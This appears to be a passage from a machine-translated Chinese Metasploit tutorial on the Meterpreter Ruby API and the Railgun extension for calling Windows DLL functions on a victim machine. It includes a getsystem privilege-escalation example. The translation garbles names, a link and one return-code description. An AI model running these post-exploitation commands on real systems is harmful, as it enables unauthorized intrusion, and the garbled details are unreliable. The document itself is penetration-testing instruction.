 *   `service_list():`此列表列出了所有存在的 Windows 服务。它返回一个包含服务名称的数组。
*   `service_start(name):`此功能用于服务启动。如果服务已启动，则返回 0；如果服务已启动，则返回 1；如果服务已禁用，则返回 2。
*   `service_stop(name):`此功能用于停止服务。如果服务成功停止，则返回 0；如果服务已停止或禁用，则返回 1；如果服务无法停止，则返回 2。

这是对一些重要的MeterMeter混合器的快速参考。使用这些 mixin 可以降低脚本的复杂性。我们将在接下来的几个食谱中了解它们的用法，我们将在这里创建和分析 MeterMeter 脚本。

## 它是如何工作的。。。

MeterMeter API 只是创建了一个小型 Ruby 解释器，可以理解和解释 Ruby 指令。使用 API 的主要优点是，它使我们能够灵活地执行自己的操作。我们不能拥有所有操作的命令。在某些情况下，我们可能需要特定的脚本来执行任务。这就是 API 可以方便使用的地方。

# 轨道炮-将红宝石转化为武器

在前面的配方中，我们看到了使用 MeterMeter API 来运行 Ruby 脚本。让我们向前迈出一步。假设我们想在受害者机器上进行远程 API 调用，那么最简单的方法是什么？铁路炮是显而易见的答案。它是一个 MeterMeter 扩展，允许攻击者直接调用 DLL 函数。通常，它用于调用 Windows API，但我们可以调用受害者机器上的任何 DLL。

## 准备好了吗

要开始使用 Railgun，我们需要在目标机器上进行活动的 MeterMeter 会话。要启动 Ruby 解释器，我们将使用前面配方中讨论的 `irb`命令。

```
meterpreter>irb
>> 
```

## 怎么做。。。

在我们开始调用 DLL 之前，让我们先看看为了充分利用 Railgun 需要遵循的基本步骤。

1.  确定要调用的函数。
2.  将功能定位在[上 http://msdn.microsoft.com/en-us/library/aa383749（v=vs.85）。aspx](http://msdn.microsoft.com/en-us/library/aa383749(v=vs.85).aspx)。
3.  检查函数所在的库（DLL）（例如， `kernel32.dll)`）。
4.  所选库函数可以调用为 `client.railgun.dll_name.function_name(arg1, arg2, ...)`。

Windows MSDN 库可用于识别要在目标计算机上调用的有用 DLL 和函数。让我们调用 `shell32.dll`的一个简单 `IsUserAnAdmin`函数并分析输出。

```
>> client.railgun.shell32.IsUserAnAdmin
=> {"GetLastError"=>0, "return"=>false} 
```

我们可以看到，函数返回了 `false`值，表示用户不是管理员。让我们升级我们的特权，再试一次。

```
meterpreter > getsystem
...got system (via technique 4).
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>> client.railgun.shell32.IsUserAnAdmin
=> {"GetLastError"=>0, "return"=>true} 
```

这次函数返回 `true`，表示我们的权限提升成功，现在我们作为系统管理员工作。Railgun 为我们提供了灵活性，可以轻松地执行那些没有以模块形式出现的任务。因此，我们不仅限于框架提供的那些脚本和模块，事实上，我们可以根据需要进行调用。
